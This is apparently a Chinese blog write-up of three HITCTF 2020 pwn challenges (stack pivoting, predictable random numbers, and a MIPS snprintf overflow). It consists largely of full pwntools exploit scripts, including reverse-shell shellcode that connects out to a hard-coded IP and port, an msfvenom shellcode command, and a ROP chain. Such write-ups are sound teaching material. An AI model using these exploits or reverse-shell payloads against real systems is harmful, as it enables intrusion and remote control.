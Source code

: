 ```yaml
---
title: HITCTF 2020 三道 Pwn
date: 2020-12-09 00:00:02
categories:
- CTF/Pwn
tags: HITCTF mips
---
```


> 比较简单的Pwn，其中的MIPS Pwn是人生中拿到的第一个Pwn的一血，全是4哥的功劳。

总共五道题，做出来三道，题目全在这了：[pwn.zip](https://xuanxuanblingbling.github.io/assets/attachment/hitctf/pwn.zip)

## dagongren1

媳妇博客：[hitctf2020之dagognren1](https://blingblingxuanxuan.github.io/2020/12/05/hitctf2020-dagongren1/)

- 漏洞：main函数scanf栈溢出
- 利用：栈迁移+shellcode反弹shell

> shellcode: [http://shell-storm.org/shellcode/files/shellcode-857.php](http://shell-storm.org/shellcode/files/shellcode-857.php)

```python
from pwn import *
context(arch="amd64",os='linux')
#myelf = ELF("./dagongren1")
#io = process(myelf.path)
io = remote("81.70.209.171",51601)

shellcode  = "\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x4d\x31\xc0\x6a"
shellcode += "\x02\x5f\x6a\x01\x5e\x6a\x06\x5a\x6a\x29\x58\x0f\x05\x49\x89\xc0"
shellcode += "\x48\x31\xf6\x4d\x31\xd2\x41\x52\xc6\x04\x24\x02\x66\xc7\x44\x24"
shellcode += "\x02\x7a\x69\xc7\x44\x24\x04\x95\x81\x23\x3d\x48\x89\xe6\x6a\x10"
shellcode += "\x5a\x41\x50\x5f\x6a\x2a\x58\x0f\x05\x48\x31\xf6\x6a\x03\x5e\x48"
shellcode += "\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x48\x31\xff\x57\x57\x5e\x5a"
shellcode += "\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54"
shellcode += "\x5f\x6a\x3b\x58\x0f\x05"

io.recv()
#gdb.attach(io,"b * 0x400736")
io.sendline('a'*32+p64(0x600e40)+p64(0x4006fc))
sleep(1)
io.sendline('a'*32+p64(0x0)+p64(0x600e50)+shellcode)
io.interactive()
```

参考其他wp：

- [HITCTF_WP_pwn4_5](https://c0yo7e.github.io/2020/12/12/HITCTFF-WP-pwn4n4-5/)
- [emocat/writeups: HITCTF-2020](https://github.com/emocat/writeups/tree/master/2020/HITCTF-2020)

发现因为只关闭了标准输出和标准错误，所以还可以使用将输出重定向到标准输入来绕过。不过使用这种方法在pwntools中用process启动就会给EOF，用socat可以成功：

```python
➜  socat tcp-l:1111,reuseaddr,fork exec:"./dagongren1"
```

```python
from pwn import *
context(arch="amd64",os='linux',log_level='debug')
io = remote("10.10.10.139",1111)
io.recv()
io.sendline('a'*32+p64(0x600e40)+p64(0x4006fc));sleep(0.1)
io.sendline('a'*32+p64(0x0)+p64(0x600e50)+asm(shellcraft.sh()))
io.sendline("exec /bin/sh 1>&0")
#io.sendline("cat /flag>&0")
io.interactive()
```

还可以使用pwntools中的 [shellcraft.cat(filename, fd=0)](http://docs.pwntools.com/en/stable/shellcraft/amd64.html?highlight=shellcraft#pwnlib.shellcraft.amd64.linux.cat)，指定fd为0即可：

```python
from pwn import *
context(arch="amd64",os='linux',log_level='debug')
io = remote("10.10.10.139",1111)
io.recv()
io.sendline('a'*32+p64(0x600e40)+p64(0x4006fc));sleep(0.1)
io.sendline('a'*32+p64(0x0)+p64(0x600e50)+asm(shellcraft.cat("/flag",0)))
io.interactive()
```

## lucky

- 漏洞：可预测的随机数
- 利用：本地预测随机数

```python
from pwn import *
from ctypes import *
context.log_level = "debug"
 
libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')
libc.srand(libc.time(0)/0xA+1)
myelf = ELF("./lucky")
#io = process(myelf.path)
io = remote("81.70.209.171",51700)
io.recv()
io.sendline("xuan")
for i in range(100):
    io.recv()
    io.sendline(str(libc.rand()))
io.interactive()
```

## supercgi

> 参考：[emocat/writeups: HITCTF-2020](https://github.com/emocat/writeups/tree/master/2020/HITCTF-2020)

程序属性：`mipsel32:static`，保护全关。功能是一个以标准输入输出为接口的Web服务器，所以可以使用socat这种工具将其绑定到一个端口上然后使用浏览器进行访问。路径解析处过滤了`..`后直接读文件了，中间没有什么多余的操作，所以目录穿越这种Web洞是没有了，还是关注内存问题。

- 漏洞：`detect_robot`函数中，处理多个`User-Agent`字段可导致计算长度的整数溢出，进而可以触发栈溢出
- 利用：恶意数据会存在全局变量中，地址已知，故return 2 shellcode

### 漏洞分析

漏洞函数如下：

```c
char v5[260]; // [sp+20h] [+20h] BYREF
v3 = 255;
v4 = 0;
do
{
if ( !fgets(buf, 1024, stdin) || !strcoll(buf, "\n") || !strcoll(buf, "\r\n") )
    break;
v0 = strlen(UA);
if ( !strncmp(buf, UA, v0) )
{
    v1 = strlen(UA);
    v4 = snprintf(&v5[v4], v3, "%s", &buf[v1 + 1]);
    v3 -= v4;
}
}
while ( v3 );
```

这个循环是每次读输入的一行，问题重点在snprintf上：

> man手册：[https://man7.org/linux/man-pages/man3/snprintf.3.html](https://man7.org/linux/man-pages/man3/snprintf.3.html)

```
int snprintf(char *str, size_t size, const char *format, ...);

RETURN VALUE         top
       Upon successful return, these functions return the number of
       characters printed (excluding the null byte used to end output to
       strings).

       The functions snprintf() and vsnprintf() do not write more than
       size bytes (including the terminating null byte ('\0')).  If the
       output was truncated due to this limit, then the return value is
       the number of characters (excluding the terminating null byte)
       which would have been written to the final string if enough space
       had been available.  Thus, a return value of size or more means
       that the output was truncated.  (See also below under NOTES.)

       If an output error is encountered, a negative value is returned.
```

- 首先snprintf的第二个参数类型是`size_t`，这个再往后找定义是无符号数。
- 其次snprintf的返回值是想要写入的字符串长度，而不是成功长度，故可能出现返回值大于size的情景

所以这题如果上来就给一个长度大于0xff的UA，v3一回合就变负数，下一回合就会被当成无符号数去做输入的size，就可以溢出了。即使输入的UA的长度小于0xff，因为v3是每回合都减小，所以多个回合后一样能把v3减成负数，然后溢出。

### 漏洞利用

mips的shellcode可由msf生成：

```bash
➜  msfvenom -p linux/mipsle/exec  CMD=/bin/sh  --arch mipsle --platform linux -f py -o shellcode.py
```

当然也可以使用网上其他的，如 [http://shell-storm.org/shellcode/files/shellcode-79.php](http://shell-storm.org/shellcode/files/shellcode-79.php)，最终exp如下：

```python
from pwn import *
context(arch='mips',os='linux',endian='little',log_level='debug')

myelf = ELF("./SuperCgi")
io = process(["qemu-mipsel",myelf.path])
#io = process(["qemu-mipsel","-g","1234",myelf.path])

shellcode  = b"\x66\x06\x06\x24\xff\xff\xd0\x04\xff\xff\x06\x28\xe0"
shellcode += b"\xff\xbd\x27\x01\x10\xe4\x27\x1f\xf0\x84\x24\xe8\xff"
shellcode += b"\xa4\xaf\xec\xff\xa0\xaf\xe8\xff\xa5\x27\xab\x0f\x02"
shellcode += b"\x24\x0c\x01\x01\x01\x2f\x62\x69\x6e\x2f\x73\x68\x00"

payload = '''GET /index.html HTTP/1.1
User-Agent: %s
User-Agent: %s
'''% ('a'*0xff,'a'*0xc+p32(0x412e6c)+shellcode)

io.sendline(payload)
io.interactive()
```

gdb调试脚本如下：

```c
➜  cat gdb.cmd 
file SuperCgi
set architecture mips
set endian little
b * 0x00400640
target remote :1234
➜  gdb-multiarch -x ./gdb.cmd
```

比赛时这个洞是瞎发包测出来的，循环那块当时没太看明白，因为溢出点是snprintf，所以payload也会00截断，开始做的非常麻烦，一个是用ROP，因为可以多次溢出，所以先溢出长的，然后溢出短的，就可以绕过00。并且利用思路也麻烦，用的ROP调用程序函数打印flag，本地成功，远程失败，本地挂socat失败，原因不详，后来询问出题人，发现预期解是执行了`cat flag`，果断用shellcode。这个麻烦的方法如下（偏移全是调出来的）：

```python
from pwn import *
myelf = ELF("./SuperCgi")
io = process(["qemu-mipsel",myelf.path])

ra = 0x0040075C # jal  catfile
s0 = 0x00412f1b # str /flag offset
pc = 0x004078F8 # move $a0, $s0; jr  $ra

payload =  "GET /index.html HTTP/1.1"
payload += "\nUser-Agent: "+('a'*167)
payload += "\nUser-Agent: "+('b'*152)   
payload += "\nUser-Agent: "+('c'*187+ p32(ra)+'/flag\x00') 
payload += "\nUser-Agent: "+('d'*78 + p32(pc))           
payload += "\nUser-Agent: "+('e'*179+ p32(s0))            
payload += "\n"

io.sendline(payload)
io.interactive()
```